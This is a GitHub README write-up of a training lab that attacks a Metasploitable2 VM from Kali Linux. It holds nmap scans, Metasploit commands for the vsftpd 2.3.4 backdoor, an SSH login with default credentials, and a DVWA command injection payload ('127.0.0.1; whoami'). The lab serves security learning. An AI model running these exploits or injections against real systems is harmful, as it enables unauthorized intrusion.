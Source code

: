# kali-metasploitable-lab
Penetration testing sim using Kali Linux and Metasploitable2

# Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## Lab Setup

| Component      | Details                        |
|----------------|--------------------------------|
| Attacker       | Kali Linux (UTM VM)            |
| Target         | Metasploitable2 (UTM VM)       |
| Network        | Shared NAT / Bridged           |
| Connectivity   | Confirmed via ping             |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

#### Basic Nmap Scan
```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
Summary of Open Ports:
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
Summary: 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### Exploit: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

Result: 
* Successful shell access as `root`
* Verified with ```whoami```


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client

**Login Attempt:**
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

Result: 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  ```whoami```

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

Lessons Learned:
Modern SSH clients disable insecure key types by default. In these lab scenarios with outdated systems compatibility flags may be required to access vulnerable targets. SOC teams should monitor for these depreciated cryptographic negotiations as potential attack indicators.


---

### HTTP Exploit – DVWA Command Injection (Port 80)

**Target URL:** http://192.168.64.3/dvwa/vulnerabilities/exec/  
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```
